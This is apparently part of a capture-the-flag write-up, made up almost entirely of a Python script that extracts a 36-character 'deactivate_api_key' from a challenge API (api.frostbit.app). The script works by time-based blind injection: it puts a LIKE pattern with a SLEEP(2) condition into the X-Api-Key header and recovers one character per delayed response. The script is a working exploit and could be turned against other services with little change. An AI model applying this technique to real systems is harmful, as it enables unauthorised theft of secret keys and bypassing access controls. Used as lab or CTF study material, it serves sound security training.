 ### Guessing value of attribute ***deactivate_api_key***

```python
import requests
import time
import string

# Define the target URL and headers
url = 'https://api.frostbit.app/api/v1/frostbitadmin/bot/83270120-3b1c-41f3-b25b-deaa5b5d1327/deactivate?debug=true'
headers = {
    'Host': 'api.frostbit.app',
    'X-Api-Key': ""  # Placeholder for the payload
}

# Function to test a single character of the 'deactivate_api_key' value
def test_character(guessed_name, character):
    print(f"Testing character '{character}' for guessed name: '{guessed_name}'...")

    pattern = guessed_name + character + "%"  # Create the pattern
    payload = f"' OR doc.deactivate_api_key LIKE '{pattern}' ? SLEEP(2) : 'a"
    headers['X-Api-Key'] = payload

    start_time = time.time()  # Record the start time of the request
    response = requests.get(url, headers=headers)
    elapsed_time = time.time() - start_time  # Calculate response time

    if elapsed_time >= 2:  # If response is delayed by 2 seconds, it means the character is correct
        print(f"Found character '{character}'!")
        return True
    return False

# Function to guess the full value of 'deactivate_api_key'
def guess_value(value_length):
    guessed_value = ""

    for i in range(value_length):  # Loop for the known length of the value
        for character in string.ascii_lowercase + string.digits + "-._":  # Test possible characters
            if test_character(guessed_value, character):
                guessed_value += character
                break  # Move to the next position once the correct character is found
        #time.sleep(0.5)  # Small delay to avoid overwhelming the server

    return guessed_value

# Main function
if __name__ == "__main__":
    print("Starting to guess the value of 'deactivate_api_key'...\n")
    
    value_length = 36  # Length of 'deactivate_api_key' value
    guessed_value = guess_value(value_length)
    
    print(f"\nGuessed value for 'deactivate_api_key': {guessed_value}")
```